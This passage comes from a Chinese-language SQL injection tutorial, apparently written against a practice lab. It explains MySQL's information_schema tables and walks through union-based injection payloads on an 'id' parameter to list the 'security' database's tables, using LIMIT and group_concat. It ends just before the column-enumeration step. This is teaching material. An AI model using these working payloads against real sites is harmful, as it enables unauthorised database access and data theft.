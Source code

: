 + `tables`：存储了mysql中所有数据库的表的信息（索引根据数据库名），`show tables from 数据库名（schema_name）`的结果取之此表：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641720065651-00a200ab-e950-45fa-8c74-d0584f028a63.png)

> 上图红框中是我们这一小节需要用到的表。
>

+ `columns`：存储了mysql中所有表的字段信息，`show columns from 数据库名（schema_name）.table_name（表名）`的结果取之此表。

`columns`表有column_name（列名）、table_name（表名）和table_schema（所在的数据库名）三个字段，如：



![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641720407804-adaff55f-fb3f-4323-8950-c14cfc6be6ca.png)

我们可以使用如上知识取得语句执行的表名：

`?id=-1' union select 1,2,table_name from information_schema.tables where table_schema='security' --+`

对应数据库的语句为：

`select username,password from table_name where id= '-1' union select 1,2,table_name from information_schema.tables where table_schema='security' --`

实际语句为：

`select * from users where id= '-1' union select 1,2,table_name from <u>information_schema.tables</u> where table_schema='security' --`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641720843009-909abd48-0f23-46e9-bacb-71807c05bcbf.png)



![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641720858938-9d0cab25-85cc-4697-a771-2b825a6e045c.png)

由于php的限制这里只能显示第一个**执行语句的所在数据库（security）**的表名，要想查询到其他的需要使用`limit`子句：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721117460-fe99ed0a-1580-418b-92e2-23563fea64b3.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721129937-ff51dd43-f1b3-412e-855a-0fad159d4091.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721146784-0069a30c-31ff-44ab-8699-2a448c47a8de.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721271927-6ef729c0-2c04-43d6-8885-f84b47db9b10.png)

`limit 4,4`没有结果，说明只有4个表。通过返回的表名我们猜测users为当前语句所查询的表。上面一个一个limit太麻烦，可以直接使用`group_concat`进行打包输出：

+ `group_concat(column_name)`
    - 将字段的所有数据用`,`连接作为字符串输出

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721604651-c2a3ce6a-1a52-4271-ad06-5772ddc6a981.png)

最后爆破这个表中的字段：
